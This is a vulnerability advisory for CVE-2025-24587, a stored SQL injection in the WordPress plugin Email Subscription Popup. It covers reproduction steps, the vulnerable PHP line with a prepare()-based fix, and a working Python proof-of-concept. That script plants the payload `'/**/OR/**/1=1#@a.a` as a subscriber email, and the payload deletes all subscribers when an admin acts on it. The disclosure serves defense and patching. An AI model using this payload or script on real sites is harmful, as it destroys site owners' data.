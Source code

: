 # CVE-2025-24587

# 1️⃣ Component type

WordPress plugin

# 2️⃣ Component details

`Component name` Email Subscription Popup

`Vulnerable version` <= 1.2.23

`Component slug` email-subscribe

`Component link` https://wordpress.org/plugins/email-subscribe/

# 3️⃣ OWASP 2017: TOP 10

`Vulnerability class` A3: Injection

`Vulnerability type` SQL Injection

# 4️⃣ Pre-requisite

Unauthenticated

# 5️⃣ **Vulnerability details**

## 👉 **Short description**

An unauthorized user (attacker) subscribes to the newsletter using an email address containing an SQL Injection payload. Later, when the administrator navigates to the "Subscriber Management" page, selects the malicious email address, and requests deletion, the SQL Injection payload embedded in the email address is executed. As a result, all subscribed email addresses are deleted from the database.

## 👉 **How to reproduce (PoC)**

1. Prepare a WordPress site with the "Email Subscription Popup" plugin (version ≤ 1.2.23) activated.
2. Run the `poc.py.txt` file (attached) using Python to subscribe to the newsletter with an email address containing a payload that triggers the SQL Injection vulnerability:
    - Email address: `'/**/OR/**/1=1#@a.a`
    - Note: Subscription using this email address is not possible via the client (browser) due to validation. Instead, send an HTTP request packet directly as shown in poc.py.txt.
3. Log in as an administrator and navigate to:
[`http://localhost:8080/wp-admin/admin.php?page=email_subscription_popup_subscribers_management`](http://localhost:8080/wp-admin/admin.php?page=email_subscription_popup_subscribers_management).
4. Select the email address `'/****/**OR**/****/1=1#@a.a` and click the "Delete Selected Subscribers" button at the bottom.
5. As a result, all subscribed email addresses will be deleted.

## 👉 **Additional information (optional)**

**[Cause of Vulnerability]**

This vulnerability occurs in the file wp-content/plugins/email-subscribe/wp-email-subscription.php, specifically between lines 2080 and 2084:

```php
# wp-content/plugins/email-subscribe/wp-email-subscription.php 의 
# line 2083 ~ line 2084
$query = "delete from  " . $wpdb->prefix . "nl_subscriptions where email='$em'";
$wpdb->query($query);
```

To resolve this issue, you can use `$wpdb->prepare()` provided by WordPress. This function safely escapes and formats variables used in SQL queries to prevent SQL injection attacks.

```php
$query = $wpdb->prepare(
    "DELETE FROM " . $wpdb->prefix . "nl_subscriptions WHERE email = %s",
    $em
);
$wpdb->query($query);
```

# ⭐ PoC Code

```python
import re
import string
import random
import requests

TARGET = "http://localhost:8080"

def poc():

    ####
    # 1. Retrieve the value of 'sec_string' required for email subscription
    ####
    resp = requests.get(f"{TARGET}")
    pattern = r'var nonce = \'(.{10})\';'
    match = re.search(pattern, resp.text)
    if match:
        sec_string = match.group(1)
        print("[*] sec_string: " + sec_string)
    
        ####
        # 2. Generate subscribers with random email addresses
        ####
        random_string = ''.join(random.choices(string.ascii_letters + string.digits, k=6))
        for i in range(10):
            data = {
                "action": "store_email",
                "email": f"{random_string}_{i}@example.com",
                "name": f"{random_string}_{i}",
                "is_agreed": "true",
                "sec_string": sec_string
            }
            print("[+] Successfully created subscriber #" + str(i) + " Email: " + data['email'] + ", Name: " + data['name'])
            requests.post(f"{TARGET}/wp-admin/admin-ajax.php", data=data)
        
        ####
        # 3. Create a malicious email address to delete all subscriptions
        ####
        data = {
            "action": "store_email",
            "email": "'/**/OR/**/1=1#@a.a",
            "name": "Email mine",
            "is_agreed": "true",
            "sec_string": sec_string
        }
        print("[+] Malicious email address created Email: " + data['email'] + ", Name: " + data['name'])
        requests.post(f"{TARGET}/wp-admin/admin-ajax.php", data=data)
    else:
        print("[-] 'sec_string' not found")
    

if __name__ == "__main__":
    poc()
```

## 6️⃣ Exploit Demo

[![video](https://img.youtube.com/vi/UG38B1MlUm8/0.jpg)](https://www.youtube.com/watch?v=UG38B1MlUm8)

## 7️⃣ References

- [https://nvd.nist.gov/vuln/detail/CVE-2025-24587](https://nvd.nist.gov/vuln/detail/CVE-2025-24587)